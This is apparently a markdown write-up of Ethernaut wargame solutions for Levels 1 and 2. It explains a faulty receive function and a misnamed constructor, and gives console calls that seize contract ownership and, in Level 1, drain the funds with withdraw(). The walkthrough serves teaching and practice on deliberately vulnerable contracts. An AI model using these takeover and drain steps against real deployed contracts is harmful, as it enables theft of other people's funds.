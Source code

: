 # Ethernaut Solutions

## Level 1 - Fallback

Exploiting faulty logic that allows taking posession of the contract. 

```
  // 'fallback' function sets contract owner to msg.sender
  // can be used to take control of the contract
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

By satisfying the condition in the fallback function, the contract can be hijacked.

```
// Get current contract owner
await contract.owner();

await contract.contribute({ value: 1 });
// use the sendTransaction function to make a call to the contract

// trigger the fallback by sending Ether with no msg.data
await contract.sendTransaction({ value: 1 });

// Get current contract owner (should be your address now)
await contract.owner();

// Call the withdraw function and drain the funds
await contract.withdraw();
```

## Level 2 - Fallout

The contract does not correctly supply a constructor function. Instead a publicly callable function is set that allows anyone to call the function and take ownership of the contract.

```
// Get current contract owner
await contract.owner();

// Call the Fal1out() function
await contract.Fal1out();

// Get current contract owner
await contract.owner();
```